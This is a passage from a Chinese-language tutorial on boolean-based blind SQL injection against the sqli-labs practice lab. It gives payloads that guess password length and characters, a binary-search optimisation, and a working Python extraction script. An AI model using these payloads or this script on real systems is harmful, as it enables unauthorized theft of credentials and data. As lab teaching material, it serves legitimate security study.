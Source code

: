 同理可以得到列名, 最后用这种方式拖出数据(表名 `users`, 字段名 `password` 和 `username`)。

穷举数据长度:

```sql
id=1' AND 
(SELECT LENGTH(password) 
 FROM users 
 LIMIT 0,1
)=4 --+
```

猜测内容:

```sql
id=1' AND 
ASCII(SUBSTR(
  (SELECT password 
   FROM users 
   LIMIT 0,1), 1, 1)
)=68 --+
```

#### 算法优化

1. 二分查找

从上面能看出, 布尔盲注本质上是一种比较和穷举, 因此优化方面在**减少比较次数**, 比较容易想到的是**二分查找**。

例如, 第一次查找将比较值定为 64, 利用比较符号(`>`,`<`), 若结果为大于, 则将第二次查找的值定为 (64 + 128) / 2 = 96, 以此递推。

2. 自动化脚本

以python为示例:

```python
import requests

url = "http://localhost/sqli-labs/Less-8/?id=1' AND {} --+"
table_name = ""

for pos in range(1, 20):
    low, high = 0, 127
    while low <= high:
        mid = (low + high) // 2
        payload = f"ASCII(SUBSTR((SELECT table_name FROM information_schema.tables WHERE table_schema='security' LIMIT 0,1),{pos},1)) > {mid}"
        r = requests.get(url.format(payload))
        if "You are in" in r.text:
            low = mid + 1
        else:
            high = mid - 1
    if low == 0:
        break
    table_name += chr(low)
    print(f"Position {pos}: {chr(low)}")
```
此外, 如果要猜测的数据量非常庞大, 可以在 python 中开启**多线程**
